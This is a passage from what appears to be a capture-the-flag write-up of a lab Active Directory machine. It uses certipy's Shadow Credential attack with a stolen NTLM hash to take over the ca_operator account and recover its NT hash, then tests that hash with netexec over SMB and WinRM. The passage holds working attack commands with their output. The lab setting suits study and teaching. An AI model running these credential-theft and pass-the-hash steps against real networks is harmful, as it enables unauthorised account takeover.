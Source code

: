 #### Get NTLM

I already found above that the management\_svc user has `GenericAll` over the CA\_Operator user. I can use the same attack as above, writing a Shadow Credential to get the NTLM hash of this user:

```

oxdf@hacky$ certipy shadow auto -username management_svc@certified.htb -hashes :a091c1832bcdd4677c28b5a6a1295584 -account ca_operator -target certified.htb -dc-ip 10.10.11.41
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'ca_operator'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'f5ac7402-4dde-7555-6b4b-a460f7fd1290'
[*] Adding Key Credential with device ID 'f5ac7402-4dde-7555-6b4b-a460f7fd1290' to the Key Credentials for 'ca_operator'
[*] Successfully added Key Credential with device ID 'f5ac7402-4dde-7555-6b4b-a460f7fd1290' to the Key Credentials for 'ca_operator'
[*] Authenticating as 'ca_operator' with the certificate
[*] Using principal: ca_operator@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'ca_operator.ccache'
[*] Trying to retrieve NT hash for 'ca_operator'
[*] Restoring the old Key Credentials for 'ca_operator'
[*] Successfully restored the old Key Credentials for 'ca_operator'
[*] NT hash for 'ca_operator': b4b86f45c6018f1b664f70805f45d8f2

```

#### Validate

The hash works:

```

oxdf@hacky$ netexec smb dc01.certified.htb -u ca_operator -H b4b86f45c6018f1b664f70805f45d8f2
SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.41     445    DC01             [+] certified.htb\ca_operator:b4b86f45c6018f1b664f70805f45d8f2

```

But not for WinRM:

```

oxdf@hacky$ netexec winrm dc01.certified.htb -u ca_operator -H b4b86f45c6018f1b664f70805f45d8f2
WINRM       10.10.11.41     5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:certified.htb)
WINRM       10.10.11.41     5985   DC01             [-] certified.htb\ca_operator:b4b86f45c6018f1b664f70805f45d8f2

```
